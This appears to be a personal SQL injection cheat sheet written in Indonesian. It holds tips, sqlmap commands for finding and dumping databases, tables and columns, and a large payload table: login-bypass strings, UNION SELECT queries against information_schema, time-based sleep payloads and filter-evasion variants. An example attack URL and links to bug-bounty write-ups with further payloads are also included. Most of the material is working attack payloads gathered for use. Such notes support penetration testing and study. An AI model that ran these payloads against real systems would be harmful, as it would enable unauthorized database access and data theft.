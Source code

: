 # SQL Injection

## Tips
- Blind berbeda dengan OOB
- Blind SQL injection generate error 500
- Cari parameter yang reflected ke response
- OOB Channel -> DNS, email, Database connection
- logical true, hanya bisa menggunakan untuk true saja.
- union select 'asd' , bisa merefleksikan 'asd' pada HTTP response 
- Cari parameter yang menjadi penetu perubahan data pada response
- Kalau value parameter yang injection kan adalah string maka mengunnakan 1='1 atau '1'='1'
- Pada injection login, coba test inject for username dahulu, kalau tidak bisa coba inject kedua username dan password
- Error tidak selalu menjadikan patokan bah itu celah sqli, kadang celah tersebut tidak menghasilkan error tetapi ketika kita union 'asd' malah terfeleksikan 'asd' di response body

## langkah-langkah
1. Identifikasi DB apa yang digunakan, salah satu caranya adalah dengan generate error sehaingga server menampilka informasi teknologi. Walaupun server tidak mereturkan error, tapi server selau mereturn databse yang digunakan ketika kita menijectkan payload finding db version.
2. Identify kapan dan dimana aplikasi akan berinteraksi dengan DB Server untuk mengakses data. Berikut kondisi umum aplikasi berinteraksi dengan DB server.
    - Authentication form, user dan password akan dicek pada database apakah ada atau tidak (kadang juga hash)
    - Search Engine, string yang disubmit oleh user digunakan untuk mengeksract semua data yang relevant pada database
    - E-commerce site, semua produk e-commerce stored di DB
2. List entry point/parameter yang bisa digunakan untuk menginputkan SQL query, seperti (__GET parameter, POST parameter, HTTP header, cookies__)
3. Coba generate error pada entry point/parameter yang sudah dikumpulkan pada langkah sebelumnya menggunakan `'` (digunakan untuk memisahkan string) dan `;` (digunakan untuk mengakhiri kueri SQL)
4. Coba meng-injek payload tanpa break query, bisa mengguna comment


## Celah Injection
- Header
    - User-agent
      ```
      sqlmap -u 'http://google.com' -p user-agent --user-agent=elseagent --technique=B --banner
      sqlmap -u 'http://google.com' -p user-agent --random-agent --technique=U --tamper=space2comment --suffix=';#' union-char=els --banner //Digunakan jika server blok spasi dan menggunakan commen '#'
      ```
- Parameter GET
- Parameter POST

## SQLMap
- Menggali isi DB
    ```
    sqlmap -u 'http://google.com' --current-db
    sqlmap -u 'http://google.com' -D <namaDB> --tables
    sqlmap -u 'http://google.com' -D <nameDB> -T <namaTable> --columns
    sqlmap -u 'http://google.com' -D <nameDB> -T <namaTable> --dump
    ```

## Payload
|Payload|Payload alternatif|
|---|---|
|Logical True/false|`' OR 1=1` biasaya pake ini<br>`' OR 6=6`<br>`' OR 0x47=0x47`<br>`' OR char(32)=6''`<br>`' OR 6 is not null`<br>`admin' --`<br>`admin' #`<br>`admin'/*`<br>`' or 1=1--`<br>`' or 1=1#`<br>`' or 1=1/*`<br>`') or '1'='1--`<br>`') or ('1'='1--`|
|`UNION SELECT asd`|`UNION SELECT` <br> `'UNION ALL SELECT` <br> `') uZEROFILLnZEROFILLiZEROFILLoZEROFILLn sZEROFILLeZEROFILLlZEROFILLeZEROFILLcZEROFILLt 'PoC'; -- -`|
|`+UNION+SELECT+1,2,(table_name),4,5+from+information_schema.tables--+`|`union select 1,2,group_concat(table_name),4,5 from information_schema.tables where table_schema=database()—`<br>`'union(select('asd');# ->digunakan ketika comment diblok` <br> `union(select(group_concat(table_name))from(information_schema.columns/tables)where(table_schema=database()));#`<br>`union select group_concat(table_name) from information_schema.tables where table_schema=schema(); —- - (MySQL)`|
|' AND (SELECT 9160 FROM (SELECT(SLEEP(1-(IF(2085>2084,0,5)))))htyF) AND 'SyEv'='SyEv|' AND (SELECT 2484 FROM (SELECT(SLEEP(5)))wMTT) AND 'pbuG'='pbuG|
```
http://192.168.2.3/news-and-events.php?id=-22 union select 1,group_concat(table_name),3,4,5,6,7 from information_schema.tables where table_schema=database()— //extract table name
```

|Database|Comment|
|---|---|
|Oracle|`--comment`|
|MySQL|`-- comment` `-- -comment` `; -- -comment` `#comment` `/*comment*/`(also obfuscator) `;%00`(nullbyte) `+--+/`|
|PostgreSQL|`--comment` `/*comment*/`|
|Microsoft|`--comment` `/*comment*/`|

  ```
  <spasi_kosong>
  '
  ')
  '))
  " / ") / "))
  `
  `)
  `))
  ```
  
|DB|Function (non-blind)|Function (blind)->string concatenation|Function (blind)->all function return an INTEGER NUMBER in the respective database while generate ERROR on all others|
|---|---|---|---|
|MySQL|@@version<br>@@global.version<br>version()|'Concat' 'enation'<br>CONCAT('Concat','enation')|CONNECTION_ID()<br>LAST_INSERT_ID()<br>ROW_COUNT()<br>...|
|MS SQL| @@version|'some'+'enation'<br>CONCAT('Concat','enation')|@@PACK_RECEIVED<br>@@ROW_COUNT<br>@@TRANCOUNT<br>...|
|Oracle|version FROM v$instance<br>banner FROM v$version WHERE banner LIKE 'oracle%'<br>banner FROM gv$version WHERE banner LIKE 'oracle%'|'Concat'\|\|'enation'<br>CONCAT('Concat','enation')|BITAND(0,1)<br>BIN_TO_NUMB(1)<br>TO_NUMBER(1231)<br>...|
    
## Writeups
|Title|Description|
|---|---|
|[SQL Injection at Spotify](https://infosecwriteups.com/sql-injection-at-spotify-d19e0861ddf0)|inject `' atau / atau \` dan amati error yang.<br>![image](https://user-images.githubusercontent.com/52058660/159397667-09fa2fdc-f9ec-4a36-b8dc-cd6cce2bc1f1.png)<br>![image](https://user-images.githubusercontent.com/52058660/159397603-504a8a1c-acf9-4ae1-8725-978f06f6061a.png)<br>![image](https://user-images.githubusercontent.com/52058660/159397728-b70f35f9-ab12-43cc-9483-67b9806c1ba9.png)<br>![image](https://user-images.githubusercontent.com/52058660/159397801-3e97cac7-76cb-46ca-9b08-7dde6c0a73a7.png)|
|[How I Hacked the Dutch Government with SQLi and Won the Famous T-Shirt?](https://goktugkaya.medium.com/how-i-hacked-the-dutch-government-and-won-the-famous-t-shirt-b45cdf5dfaa1)|Change GET to POST|
|[How I found a critical P1 bug in 5 minutes using a cellphone — Bug Bounty](https://medium.com/@mrempy/how-i-found-a-critical-p1-bug-in-5-minutes-using-a-cellphone-bug-bounty-303ebec3edd6)|injeksi pada login form<br>`admin’ and (select * from(select(sleep(40)))SQLI) and ‘abc’ = ‘abc`<br>menggunakan kiwi browser untuk menangkap request|
|[120 Days of High Frequency Hunting](https://kuldeep.io/posts/120-days-of-high-frequency-hunting/)|time delay vuln<br>`'; WAITFOR DELAY '00:00:10'-- -`|
|[Making a Blind SQL Injection a Little Less Blind](https://medium.com/@tomnomnom/making-a-blind-sql-injection-a-little-less-blind-428dcb614ba8)|sqli pada json, jika inject ' -> error, coba netralisir dengan /*'*/|
|[bypass sql injection #1109311](https://hackerone.com/reports/1224660)|`0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z`|
|[FUZZING FOR HIDDEN PARAMS](https://medium.com/@calfcrusher/fuzzing-for-hidden-params-671724bf3fd7)|fuzzing hidden parameter menggunakan ffuf dan payload arjun<br>https://github.com/Bo0oM/ParamPamPam/blob/master/params.txt|
|[Box 3: HTB - Vaccine](https://vict0rle.medium.com/box-3-htb-vaccine-393b2484e018)<br>[某站点的简单测试](http://hone.cool/2018/08/17/%E6%9F%90%E7%AB%99%E7%82%B9%E7%9A%84%E7%AE%80%E5%8D%95%E6%B5%8B%E8%AF%95/)|unable to prompt for an interactive operating system shell via the back-end DBMS because stacked queries SQL injection is not supported|

## Resource
- [Web Security Academy - SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- [HackTricks -  SQL Injection](https://book.hacktricks.xyz/pentesting-web/sql-injection)
- [Netsparker - SQL Injection Cheat Sheet](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)
- [Finding an unseen SQL Injection by bypassing escape functions in mysqljs/mysql](https://flattsecurity.medium.com/finding-an-unseen-sql-injection-by-bypassing-escape-functions-in-mysqljs-mysql-90b27f6542b4)
- [BigQuery SQL Injection Cheat Sheet](https://ozguralp.medium.com/bigquery-sql-injection-cheat-sheet-65ad70e11eac)
- [Dumping a complete database using SQL injection [updated 2021]](https://resources.infosecinstitute.com/topic/dumping-a-database-using-sql-injection/)
- [SQLMap - Operating System Takeover - Windows](https://amolnaik4.blogspot.com/2012/05/sqlmap-operating-system-takeover.html)
